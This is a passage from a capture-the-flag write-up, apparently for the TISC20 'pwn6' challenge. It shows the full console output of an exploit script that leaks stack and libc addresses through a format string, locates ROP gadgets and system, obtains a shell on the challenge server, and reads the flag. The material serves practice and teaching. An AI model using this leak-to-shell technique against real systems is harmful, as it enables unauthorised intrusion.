 Running the exploit grants us the shell:

```console
$ python exploit.py
[+] Opening connection to fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg on port 42000: Done
[*] Got address of index 38: 0x7ffcc6610d30
[*] RSP (index 0): 0x7ffcc6610c00
[*] Got address of index 26 (index 39): 0x7ffcc6610d38
[*] Got value of index 39: 0x7ffcc6611f5c
[*] Got address of index 4 (format string): 0x55d9e612c0a0
[*] Got address of index 7 (.text address): 0x55d9e61292e0
[*] ELF Start: 0x55d9e6128000
[*] ELF Start Bytes: b'\x7fELF\x02\x01\x01'
[*] printf@GOT: 0x7f63bd1e1e10
[*] gets@GOT: 0x7f63bd203af0
[*] puts@GOT: 0x7f63bd2045a0
[*] rand@GOT: 0x7f63bd1c7e90
[*] libc Base: 0x7f63bd17d000
[*] system: 0x7f63bd1d2410
[*] puts: 0x7f63bd2045a0
[*] /bin/sh: 0x7f63bd3345aa
[*] execl: 0x7f63bd2634f0
[*] execve: 0x7f63bd263160
[*] read: 0x7f63bd28dfa0
[*] open: 0x7f63bd28dcc0
[*] ret gadget: 0x7f63bd1a2679
[*] mprotect gadget: 0x7f63bd298970
[*] One Gadget: 0x7f63bd263ce9
[*] __free_hook: 0x7f63bd36bb28
[*] __malloc_hook: 0x7f63bd368b70
[*] pop rdi; ret: 0x7f63bd1a3b72
[*] pop rsi; ret: 0x7f63bd1a4529
[*] pop rdx; pop r12; ret: 0x7f63bd2991e1
[+] Enjoy your shell!
[*] Switching to interactive mode
$ ls -la /home/pwn6
total 44
drwxr-x--- 1 root pwn6  4096 Aug  7 15:33 .
drwxr-xr-x 1 root root  4096 Jul 25 17:24 ..
-rwxr-x--- 1 root pwn6   220 Feb 25 12:03 .bash_logout
-rwxr-x--- 1 root pwn6  3771 Feb 25 12:03 .bashrc
-rwxr-x--- 1 root pwn6   807 Feb 25 12:03 .profile
-rwxr-x--- 1 root pwn6    49 Jul 25 16:49 flag.txt
-rwxr-xr-x 1 root root 17160 Aug  7 15:33 pwn6
$ cat /home/pwn6/flag.txt
TISC20{c4n_y0u_s33_anything?_042u843hfj34d92394}
$
```

